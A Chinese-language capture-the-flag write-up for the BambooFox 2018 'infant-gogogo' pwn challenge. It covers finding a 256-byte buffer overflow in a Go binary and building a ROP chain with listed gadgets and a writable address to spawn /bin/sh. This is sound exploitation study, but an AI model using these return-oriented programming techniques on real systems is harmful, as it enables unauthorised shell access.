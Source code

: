 # infant-gogogo

> Challenge Link: [infant-gogogo](http://ctf.bamboofox.cs.nctu.edu.tw/challenges#infant-gogogo)
>
> Category: pwn

Give me your magic text ~~~

`nc bamboofox.cs.nctu.edu.tw 58795`

[infant-gogogo.zip](http://ctf.bamboofox.cs.nctu.edu.tw/files/1f36921a750a6904cf3b6133cecf1554/infant-gogogo.zip)

## 觀察

這支程式可以讓使用者輸入一串字串，看起來跟前一題的 [infant-gotoheaven](https://github.com/frozenkp/CTF/tree/master/BambooFox_CTF_2018/infant-gotoheaven) 很像

```
% ./infant-gotoheaven                     
Give me your text : 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

### Buffer overflow

先試一下是否也有 Buffer overflow

```
% ./infant-gogogo              
Give me your text : 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
unexpected fault address 0x0
fatal error: fault
[signal SIGSEGV: segmentation violation code=0x80 addr=0x0 pc=0x489834]

goroutine 1 [running]:
runtime.throw(0x4b9168, 0x5)
        /usr/local/go/src/runtime/panic.go:605 +0x95 fp=0xc420043f28 sp=0xc420043f08 pc=0x427345
runtime.sigpanic()
        /usr/local/go/src/runtime/signal_unix.go:374 +0x227 fp=0xc420043f78 sp=0xc420043f28 pc=0x43a307
main.main()
        /home/frozenkp/Downloads/gobin/infant-gogogo.go:20 +0x1b4 fp=0xc420043f80 sp=0xc420043f78 pc=0x489834
```

最後一行有寫到死在`infant-gogogo.go:20`

用`objdump`看一下發現是死在`ret`，所以應該跟上題一樣，也是可以**蓋到 return address**

![](https://i.imgur.com/J0SdY2P.png)

## 解法

這題跟  [infant-gotoheaven](https://github.com/frozenkp/CTF/tree/master/BambooFox_CTF_2018/infant-gotoheaven) 的主要差別在於 [infant-gotoheaven](https://github.com/frozenkp/CTF/tree/master/BambooFox_CTF_2018/infant-gotoheaven) 有提供可以直接拿到 shell 的 `system call` ，這題則要自己建 ROP chain

### payload

先隨便輸入來造成 segmenataion fault，確定程式會產生 buffer overflow，且是死在 return addresss 錯誤

![img](https://i.imgur.com/3w10UGw.png)

計算一下 payload 是 **256**

### ROP chain

因為 Go 的 binanry 檔是 static link 的，基本上可以從裡面拿到各式各樣的 gadget

```
% file infant-gogogo 
infant-gogogo: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped
```

#### execve

根據 [這篇](http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/) 整理的表格，要執行 `execve("/bin/sh")` 的條件是

| rax  | System call | rdi                  | rsi                      | rdx                      |
| ---- | ----------- | -------------------- | ------------------------ | ------------------------ |
| 59   | sys_execve  | const char *filename | const char *const argv[] | const char *const envp[] |

執行 `/bin/sh` 的話，只需要把 `rdi` 指向寫有 `/bin/sh` 的**位址**，`rsi` 及 `rdx`  則設成 0 (NULL) 即可

#### ROP gadget

基本上在設值的時候，如果可以拿到 `pop {resister}; ret` 形式的 gadget 最好，因為可以直接把要丟入的值寫在 gadget 的下一位，例如：

```
ropchain = pop_rax, p64(59)
```

這樣在執行 `pop rax` 時，會將 stack 上的第一位 pop 到 rax 上，而此時的第一位就會是 `p64(59)`

除此之外，也要注意**最後面必須是 ret** ，否則沒辦法繼續執行後段的 ROP chain

尋找 ROP gadget 可以使用指令 `ROPgadget` 搭配 `grep`，例如說要找 `pop rax` 時：

```
% ROPgadget --binary infant-gogogo | grep 'pop rax.*ret'
0x000000000044dd12 : add eax, ebp ; pop rax ; ret
0x000000000044dd10 : and al, 0x10 ; add eax, ebp ; pop rax ; ret
0x0000000000466d3e : je 0x466d67 ; pop rax ; ret
0x000000000044dd0d : or dh, al ; and al, 0x10 ; add eax, ebp ; pop rax ; ret
0x0000000000402563 : pop rax ; add rsp, 0x60 ; ret
0x000000000040e31b : pop rax ; and byte ptr [rax - 1], cl ; ret
0x0000000000448b11 : pop rax ; mov qword ptr [rsp + 0x10], rax ; ret
0x000000000043cfb3 : pop rax ; or byte ptr [rax - 0x7d], cl ; ret
0x000000000040985c : pop rax ; or dh, dh ; ret
0x0000000000404656 : pop rax ; ret
0x0000000000414f4a : pop rax ; ret 0xff2
0x000000000040e318 : sbb byte ptr [rax - 0x75], cl ; pop rax ; and byte ptr [rax - 1], cl ; ret
```

其中可以看到 `0x0000000000404656 : pop rax ; ret` 是最符合的 gadget

#### /bin/sh

前面有說到，`rdi`是寫有 `/bin/sh` 的**位址**，所以需要找一塊空間來寫 `/bin/sh`

在 gdb 中使用 `vmmap` 來尋找可用空間

```
gdb-peda$ vmmap
Start              End                Perm      Name
0x00400000         0x0048a000         r-xp      /home/frozenkp/Documents/CTF/BambooFox_CTF_2018/infant-gogogo/infant-gogogo
0x0048a000         0x0051c000         r--p      /home/frozenkp/Documents/CTF/BambooFox_CTF_2018/infant-gogogo/infant-gogogo
0x0051c000         0x0052f000         rw-p      /home/frozenkp/Documents/CTF/BambooFox_CTF_2018/infant-gogogo/infant-gogogo
0x0052f000         0x00550000         rw-p      [heap]
0x000000c000000000 0x000000c000001000 rw-p      mapped
0x000000c41fff8000 0x000000c420100000 rw-p      mapped
0x00007ffff7f5b000 0x00007ffff7ffb000 rw-p      mapped
0x00007ffff7ffb000 0x00007ffff7ffd000 r--p      [vvar]
0x00007ffff7ffd000 0x00007ffff7fff000 r-xp      [vdso]
0x00007ffffffde000 0x00007ffffffff000 rw-p      [stack]
0xffffffffff600000 0xffffffffff601000 r-xp      [vsyscall]
```

其中有段 `0x0051c000         0x0052f000         rw-p` 是可寫的，我選擇 `0x523000` 來寫，盡量不要選擇太前面或太後面的位置，怕跟其他東西衝到

可以寫入到 `rdi` 的有以下兩句

```
0x0000000000485abd : pop rdi ; cmp dword ptr [rcx], eax ; add byte ptr [rax + 0x39], cl ; ret
0x00000000004518ff : mov qword ptr [rdi], rax ; ret
```

其中，`pop rdi` 的 gadget 後面還有 `add byte ptr [rax + 0x39]`，所以必須確保 `rax+0x39 `是一段可以寫的位址，否則會死掉

因此我先將 `rax` 設成 data 的位址，設完 `rdi` 後，再將 `rax` 設成 `/bin/sh` ，最後填入 `ptr [rdi]` 中即可



所有得條件都設定完成後，執行即可拿到 shell 囉 OwO

